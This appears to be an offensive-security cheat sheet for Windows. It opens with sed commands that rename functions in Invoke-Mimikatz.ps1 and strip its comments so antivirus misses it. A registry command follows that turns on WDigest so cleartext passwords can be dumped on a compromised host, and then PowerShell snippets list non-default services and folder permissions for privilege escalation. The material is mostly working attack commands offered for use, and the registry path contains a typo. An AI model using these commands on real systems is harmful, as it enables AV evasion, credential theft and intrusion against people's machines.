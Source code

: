 Perform antivirus activities bypass AV machines

# Invoke-Mimikatz.ps1 (obfuscated functions)

- sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1
- sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
- sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
- sed -i -e 's/ArgumentPtr/Obf/g' Invoke-Mimikatz.ps1
- sed -i -e 's/CallDllMainSC1/ObfSC1/'g Invoke-Mimikatz.ps1
- sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

#-# On Windows

Replace the $PESBytes64 with a new one of mimikatz
Lavereging the Steroids-Module for obfuscation


# Subverting mimikatz patch (on compromise machine to extract clear text password)

- add HKLM\SYSTEM\CurrentControlSet\Conttol\SecurityProviders\WDigest /v UserLogonCredential /t REG_DWORD /d 1 /f

# Get NON default Services
$NonDefaultServices = Get-wmiobject win32_service | where { $_.Caption -notmatch "Windows" -and $_.PathName -notmatch "Windows" -and $_.PathName -notmatch "policyhost.exe" -and $_.Name -ne "LSM" -and $_.PathName -notmatch "OSE.EXE" -and $_.PathName -notmatch "OSPPSVC.EXE" -and $_.PathName -notmatch "Microsoft Security Client" }

- $NonDefaultServices.DisplayName # Service Display Name (full name)
- $NonDefaultServices.PathName # Service Executable
- $NonDefaultServices.StartMode # Service Startup mode
- $NonDefaultServices.StartName # Service RunAs Account
- $NonDefaultServices.State # Service State (running/stopped etc)
- $NonDefaultServices.Status # Service Status
- $NonDefaultServices.Started # Service Started status
- $NonDefaultServices.Description # Service Description

# Get Permission
function Get-Permissions ($folder) {
  (get-acl $folder).access | select `
		@{Label="Identity";Expression={$_.IdentityReference}}, `
		@{Label="Right";Expression={$_.FileSystemRights}}, `
		@{Label="Access";Expression={$_.AccessControlType}}, `
		@{Label="Inherited";Expression={$_.IsInherited}}, `
		@{Label="Inheritance Flags";Expression={$_.InheritanceFlags}}, `
		@{Label="Propagation Flags";Expression={$_.PropagationFlags}} | ft -auto
}

